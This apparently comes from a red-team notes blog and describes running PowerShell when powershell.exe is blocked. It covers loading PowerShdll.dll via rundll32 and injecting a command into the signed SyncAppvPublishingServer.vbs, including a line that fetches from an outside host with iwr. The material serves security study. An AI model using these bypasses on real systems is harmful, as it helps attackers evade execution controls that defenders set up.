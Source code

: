 ```yaml
---
layout: post
title: "powershell without powershell"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /powershell-without-powershell/
---
```


---
layout: post
title: "powershell without powershell"
date: 2024-06-18
categories: code-execution
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /powershell-without-powershell/
---

# Powershell Without Powershell.exe

Powershell.exe is just a process hosting the System.Management.Automation.dll which essentially is the actual Powershell as we know it.

If you run into a situation where powershell.exe is blocked and no strict application whitelisting is implemented, there are ways to execute powershell still.

## PowerShdll

```
rundll32.exe PowerShdll.dll,main
```

![](../../.gitbook/assets/pwshll-rundll32.gif)

Note that the same could be achieved with a compiled .exe binary from the same project, but keep in mind that .exe is more likely to run into whitelisting issues.

## SyncAppvPublishingServer

Windows 10 comes with `SyncAppvPublishingServer.exe and` `SyncAppvPublishingServer.vbs` that can be abused with code injection to execute powershell commands from a Microsoft signed script:

```
SyncAppvPublishingServer.vbs "Break; iwr http://10.0.0.5:443"
```

![](../../.gitbook/assets/pwshll-SyncAppvPublishingServer.png)

![](../../.gitbook/assets/pwshll-SyncAppvPublishingServer.gif)

## References

{% embed url="https://github.com/p3nt4/PowerShdll" %}

{% embed url="https://safe-cyberdefense.com/malware-can-use-powershell-without-powershell-exe/" %}

{% embed url="https://www.youtube.com/watch?v=7tvfb9poTKg" %}
@spotheplanet
